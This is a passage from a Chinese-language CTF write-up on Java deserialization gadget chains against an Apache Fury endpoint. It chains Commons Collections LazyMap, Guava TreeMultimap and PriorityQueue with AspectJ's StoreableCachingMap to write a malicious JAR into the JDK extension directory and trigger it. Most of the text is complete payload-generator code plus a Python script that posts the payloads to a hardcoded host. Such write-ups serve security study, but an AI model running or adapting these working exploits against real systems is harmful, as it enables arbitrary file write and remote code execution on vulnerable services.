        Map<Object, Object> lazyMap = LazyMap.decorate(store, factory);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, filename);
        return makeHashSetWithEntry(entry);
    }

    private static HashSet<Object> makeHashSetWithEntry(Object entry) throws Exception {
        HashSet<Object> set = new HashSet<Object>(1);
        set.add("placeholder");

        Field mapField = HashSet.class.getDeclaredField("map");
        mapField.setAccessible(true);
        HashMap<?, ?> map = (HashMap<?, ?>) mapField.get(set);
        Field tableField = HashMap.class.getDeclaredField("table");
        tableField.setAccessible(true);
        Object[] table = (Object[]) tableField.get(map);
        Object node = null;
        for (Object o : table) {
            if (o != null) {
                node = o;
                break;
            }
        }
        if (node == null) {
            throw new IllegalStateException("HashSet node not found");
        }
        Field keyField = node.getClass().getDeclaredField("key");
        keyField.setAccessible(true);
        keyField.set(node, entry);
        return set;
    }
}
```

### gadget 002

官方说可以使用`UsingToStringOrdering`来打二次反序列化实现任意文件写，但是我发现其实不需要

```text
TreeMultimap.readObject
Serialization.populateMultimap
TreeMap.put
UsingToStringOrdering.compare
TiedMapEntry.toString
TiedMapEntry.getValue
LazyMap.get("sunpkcs11.jar")
ConstantFactory.create -> evil.jar bytes
SimpleCache$StoreableCachingMap.put
writeToPath("sunpkcs11.jar", evil.jar bytes)
```

这里利用的是 Guava 的 `TreeMultimap`。它反序列化时会恢复 comparator，然后把序列化流里的 key/value 重新填回 multimap

```java
private void readObject(ObjectInputStream stream) {
    stream.defaultReadObject();
    this.keyComparator = (Comparator) stream.readObject();
    this.valueComparator = (Comparator) stream.readObject();
    this.setMap(new TreeMap(this.keyComparator));
    Serialization.populateMultimap(this, stream);
}
```

`TreeMap.put()` 会调用 key comparator。key comparator 选的是：

```java
Ordering.usingToString()
```

`UsingToStringOrdering.compare(left, right)` 会对 key 调 `toString()`。我们把 key 做成 `TiedMapEntry`，所以 `toString()` 会继续取 value：

```text
TiedMapEntry.toString -> getValue -> LazyMap.get
```

后半段和方法一一样，`LazyMap.get()` miss 后调用 `ConstantFactory` 拿到 evil JAR bytes，再落到 `StoreableCachingMap.put()` 写文件。

```java
import com.google.common.collect.Ordering;
import com.google.common.collect.TreeMultimap;
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.fury.Fury;
import org.apache.fury.logging.LoggerFactory;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.HashMap;
import java.util.Map;

public class TreeMultimapUsingToStringJarWriteGadget {
    private static final String TARGET_JAR = System.getProperty("target.jar", "/usr/local/openjdk-8/jre/lib/ext/sunpkcs11.jar");
    private static final String TRIGGER_CLASS = System.getProperty("trigger.class", "sun.security.pkcs11.SunPKCS11$Descriptor");
    private static final Path WRITE_PAYLOAD = PayloadUtil.PAYLOAD_DIR.resolve("02_using_to_string_ext_jar.b64");

    public static void main(String[] args) throws Exception {
        LoggerFactory.disableLogging();
        Files.createDirectories(PayloadUtil.PAYLOAD_DIR);

        byte[] evilJar = PayloadUtil.buildEvilJar(TRIGGER_CLASS);
        Files.write(PayloadUtil.EVIL_JAR, evilJar);

        Fury fury = PayloadUtil.newFury();
        PayloadUtil.writeBase64(WRITE_PAYLOAD, fury.serialize(usingToStringFileWrite(TARGET_JAR, evilJar)));
        PayloadUtil.writeBase64(PayloadUtil.TRIGGER_PAYLOAD, fury.serialize(PayloadUtil.makeTriggerObject(TRIGGER_CLASS)));

        System.out.println("wrote " + PayloadUtil.EVIL_JAR);
        System.out.println("wrote " + WRITE_PAYLOAD);
        System.out.println("wrote " + PayloadUtil.TRIGGER_PAYLOAD);
    }

    private static Object usingToStringFileWrite(String targetPath, byte[] content) throws Exception {
        int i = targetPath.lastIndexOf('/');
        if (i < 0) {
            throw new IllegalArgumentException("target path must include a directory");
        }
        String folder = targetPath.substring(0, i);
        String filename = targetPath.substring(i + 1);

        Factory factory = ConstantFactory.getInstance(content);
        Map<Object, Object> lazyMap = LazyMap.decorate(new HashMap<Object, Object>(), factory);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, filename);

        TreeMultimap multimap = TreeMultimap.create(Ordering.usingToString(), Ordering.natural());
        multimap.put(entry, "v");

        Class<?> clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Method init = clazz.getDeclaredMethod("init", String.class, int.class);
        init.setAccessible(true);
        Map<Object, Object> store = (Map<Object, Object>) init.invoke(null, folder, 0);
        setField(lazyMap, "map", store);
        return multimap;
    }

    private static void setField(Object obj, String name, Object value) throws Exception {
        Class<?> clazz = obj.getClass();
        while (clazz != null) {
            try {
                Field field = clazz.getDeclaredField(name);
                field.setAccessible(true);
                field.set(obj, value);
                return;
            } catch (NoSuchFieldException ignored) {
                clazz = clazz.getSuperclass();
            }
        }
        throw new NoSuchFieldException(name);
    }
}
```

### gadget 003

```text
PriorityQueue.readObject
PriorityQueue.heapify
siftDownUsingComparator
TransformingComparator.compare
MapTransformer.transform("sunpkcs11.jar")
LazyMap.get("sunpkcs11.jar")
FactoryTransformer.transform
ConstantFactory.create -> evil.jar bytes
SimpleCache$StoreableCachingMap.put
writeToPath("sunpkcs11.jar", evil.jar bytes)
```

`PriorityQueue.readObject()` 会读回数组元素，然后 `heapify()`。只要队列里有两个元素，就会触发 comparator 比较。

comparator 是 `TransformingComparator`：

```java
public int compare(Object obj1, Object obj2) {
    Object value1 = transformer.transform(obj1);
    Object value2 = transformer.transform(obj2);
    return decorated.compare(value1, value2);
}
```

transformer 选 `MapTransformer`，它实际就是

```java
return map.get(input);
```

map 是一个 `LazyMap`，底层 map 是 `StoreableCachingMap`。队列元素放两个文件名：

```text
sunpkcs11.jar
sunpkcs11.jar.tmp
```

比较时会分别查这两个 key。key 不存在，于是 `LazyMap` 调用 `FactoryTransformer`，`FactoryTransformer` 再调用 `ConstantFactory.create()` 返回同一个 evil JAR byte array。随后 `LazyMap` 把两个 key 都 put 到 `StoreableCachingMap`，因此会写出两个文件：

```text
/usr/local/openjdk-8/jre/lib/ext/sunpkcs11.jar
/usr/local/openjdk-8/jre/lib/ext/sunpkcs11.jar.tmp
```

`TransformingComparator` 的 decorated comparator 用 `NullComparator`。因为 `ConstantFactory` 两次返回的是同一个 `byte[]` 对象，`NullComparator.compare(value1, value2)` 里 `value1 == value2`，直接返回 0，不会继续拿 byte array 做 Comparable 比较。

```java
import org.apache.commons.collections.Factory;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.comparators.NullComparator;
import org.apache.commons.collections.comparators.TransformingComparator;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.MapTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.fury.Fury;
import org.apache.fury.logging.LoggerFactory;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.Map;
import java.util.PriorityQueue;

public class PriorityQueueTransformerJarWriteGadget {
    private static final String TARGET_DIR = System.getProperty("target.dir", "/usr/local/openjdk-8/jre/lib/ext");
    private static final String TARGET_NAME = System.getProperty("target.name", "sunpkcs11.jar");
    private static final String EXTRA_NAME = System.getProperty("extra.name", TARGET_NAME + ".tmp");
    private static final String TRIGGER_CLASS = System.getProperty("trigger.class", "sun.security.pkcs11.SunPKCS11$Descriptor");
    private static final String CONTENT_FILE = System.getProperty("content.file", "");
    private static final Path WRITE_PAYLOAD = PayloadUtil.PAYLOAD_DIR.resolve("03_priorityqueue_ext_jar.b64");

    public static void main(String[] args) throws Exception {
        LoggerFactory.disableLogging();
        Files.createDirectories(PayloadUtil.PAYLOAD_DIR);

        byte[] evilJar = CONTENT_FILE.length() > 0
                ? Files.readAllBytes(new java.io.File(CONTENT_FILE).toPath())
                : PayloadUtil.buildEvilJar(TRIGGER_CLASS);
        Files.write(PayloadUtil.EVIL_JAR, evilJar);

        Fury fury = PayloadUtil.newFury();
        PayloadUtil.writeBase64(WRITE_PAYLOAD, fury.serialize(priorityQueueFileWrite(TARGET_DIR, TARGET_NAME, EXTRA_NAME, evilJar)));
        PayloadUtil.writeBase64(PayloadUtil.TRIGGER_PAYLOAD, fury.serialize(PayloadUtil.makeTriggerObject(TRIGGER_CLASS)));

        System.out.println("wrote " + PayloadUtil.EVIL_JAR);
        System.out.println("wrote " + WRITE_PAYLOAD);
        System.out.println("wrote " + PayloadUtil.TRIGGER_PAYLOAD);
    }

    private static Object priorityQueueFileWrite(String folder, String targetName, String extraName, byte[] content) throws Exception {
        Class<?> clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Method init = clazz.getDeclaredMethod("init", String.class, int.class);
        init.setAccessible(true);
        Map<Object, Object> store = (Map<Object, Object>) init.invoke(null, folder, 0);
        store.remove(targetName);
        store.remove(extraName);

        Factory constantBytes = ConstantFactory.getInstance(content);
        Transformer createBytes = FactoryTransformer.getInstance(constantBytes);
        Map<Object, Object> lazyMap = LazyMap.decorate(store, createBytes);
        Transformer mapLookup = MapTransformer.getInstance(lazyMap);

        TransformingComparator comparator = new TransformingComparator(mapLookup, new NullComparator());
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2);
        queue.add(targetName);
        queue.add(extraName);
        setField(queue, "comparator", comparator);
        return queue;
    }

    private static void setField(Object obj, String name, Object value) throws Exception {
        Class<?> clazz = obj.getClass();
        while (clazz != null) {
            try {
                Field field = clazz.getDeclaredField(name);
                field.setAccessible(true);
                field.set(obj, value);
                return;
            } catch (NoSuchFieldException ignored) {
                clazz = clazz.getSuperclass();
            }
        }
        throw new NoSuchFieldException(name);
    }
}
```

## exp

```python
#!/usr/bin/env python3
import http.client
import os
import urllib.parse


ROOT = os.path.dirname(os.path.abspath(__file__))
HOST = "223.6.249.127"
PORT = 60455

# Change only these two lines when testing a different gadget.
PAYLOAD_WRITE = "payloads/01_hashset_filewrite_ext_jar.b64"
# PAYLOAD_WRITE = "payloads/02_using_to_string_ext_jar.b64"
# PAYLOAD_WRITE = "payloads/03_priorityqueue_ext_jar.b64"
PAYLOAD_TRIGGER = "payloads/direct_fury_trigger.b64"


def read_payload(path):
    with open(os.path.join(ROOT, path), "r") as f:
        return f.read().strip()


def send_payload(path):
    payload = read_payload(path)
    body = urllib.parse.urlencode({"data": payload})
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    conn = http.client.HTTPConnection(HOST, PORT, timeout=15)
    try:
        conn.request("POST", "/api/deser", body=body, headers=headers)
        resp = conn.getresponse()
        data = resp.read()
        print("%s -> %d %s payload_len=%d" % (path, resp.status, resp.reason, len(payload)))
        if data:
            print(data.decode("utf-8", "replace"))
    finally:
        conn.close()


def main():
    send_payload(PAYLOAD_WRITE)
    send_payload(PAYLOAD_TRIGGER)


if __name__ == "__main__":
    main()
```




> https://baozongwi.xyz/p/alictf-2025-jtools/#jtool  
> https://meizjm3i.github.io/2021/03/07/Servlet%E4%B8%AD%E7%9A%84%E6%97%B6%E9%97%B4%E7%AB%9E%E4%BA%89%E4%BB%A5%E5%8F%8AAsjpectJWeaver%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Gadget%E6%9E%84%E9%80%A0-AntCTFxD-3CTF-non-RCE%E9%A2%98%E8%A7%A3/  
> https://www.anquanke.com/post/id/256974
> https://xz.aliyun.com/news/91567?sessionid=
